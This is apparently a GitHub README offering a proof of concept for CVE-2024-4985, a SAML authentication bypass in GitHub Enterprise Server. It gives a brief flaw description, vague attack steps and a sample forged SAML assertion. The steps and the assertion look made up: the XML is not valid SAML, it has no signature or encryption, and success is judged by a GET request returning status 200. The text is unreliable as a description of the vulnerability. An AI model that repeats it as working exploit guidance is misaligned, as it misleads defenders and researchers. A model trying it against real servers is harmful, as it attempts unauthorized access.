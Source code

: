 # Bypass-authentication-GitHub-Enterprise-Server CVE-2024-4985
The authentication bypass vulnerability in GitHub Enterprise Server (GHES) allows an unauthorized attacker to access an instance of GHES without requiring pre-authentication. The vulnerability affects all GHES versions prior to 3.13.0.

## Technical vulnerability details:
The vulnerability exploits a vulnerability in the way GHES handles encrypted SAML claims.
An attacker could create a fake SAML claim that contains correct user information.
When GHES processes a fake SAML claim, it will not be able to validate its signature correctly, allowing an attacker to gain access to the GHES instance.

## Poc:

Steps:
1-Open your penetration tester.
2. Create a Web Connection Request.
3. Select the "GET" request type.
4. Enter your GHES URL.
5. Add a fake SAML Assertion parameter to your request. You can find an example of a fake SAML Assertion parameter in the GitHub documentation.
6. Check the GHES response.
7. If the response contains an HTTP status code of 200, it has successfully bypassed authentication using the fake SAML Assertion parameter.
8. If the response contains a different HTTP status code, it did not succeed in bypassing authentication.

------------------------------------------------------------------
Note: I'm going to synthesize an example using a dummy URL (https://your-ghes-instance.com). Be sure to replace it with your real GHES URL.
In this example, we'll assume that your GHES URL is https://your-ghes-instance.com. We'll use a fake SAML Assertion parameter that looks like this:

```
<Assertion ID="1234567890" IssueInstant="2024-05-21T06:40:00Z" Subject="CN=John Doe,OU=Users,O=Acme Corporation,C=US">
  <Audience>https://your-ghes-instance.com</Audience>
  <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:assertion:method:bearer">
    <SubjectConfirmationData>
      <NameID Type="urn:oasis:names:tc:SAML:2.0:nameid-type:persistent" Format="urn:oasis:names:tc:SAML:2.0:nameid-format:basic">jdoe</NameID>
    </SubjectConfirmationData>
  </SubjectConfirmation>
  <AuthnStatement AuthnInstant="2024-05-21T06:40:00Z" AuthnContextClassRef="urn:oasis:names:tc:SAML:2.0:assertion:AuthnContextClassRef:unspecified">
    <AuthnMethod>urn:oasis:names:tc:SAML:2.0:methodName:password</AuthnMethod>
  </AuthnStatement>
  <AttributeStatement>
    <Attribute Name="urn:oid:1.3.6.1.4.1.11.2.17.19.3.4.0.10">Acme Corporation</Attribute>
    <Attribute Name="urn:oid:1.3.6.1.4.1.11.2.17.19.3.4.0.4">jdoe@acme.com</Attribute>
  </AttributeStatement>
</Assertion>
```
